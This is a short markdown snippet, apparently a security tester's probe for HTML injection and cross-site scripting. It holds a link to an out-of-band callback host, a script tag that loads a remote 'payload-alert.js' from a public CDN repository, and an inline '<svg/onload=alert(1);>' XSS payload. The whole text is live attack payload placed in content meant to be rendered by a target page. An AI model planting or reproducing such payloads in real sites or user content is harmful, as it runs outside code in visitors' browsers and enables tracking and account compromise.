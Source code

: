 # retest
retest collaborator
<a href="http://egyugfsk7ew4nqywh6zgz4tcg3muawyl.c01.red">collaborator</a>
<script src="https://cdn.jsdelivr.net/gh/hotplugin0x01/payload-testing@main/payload-alert.js"></script>
XSS
<svg/onload=alert(1);>
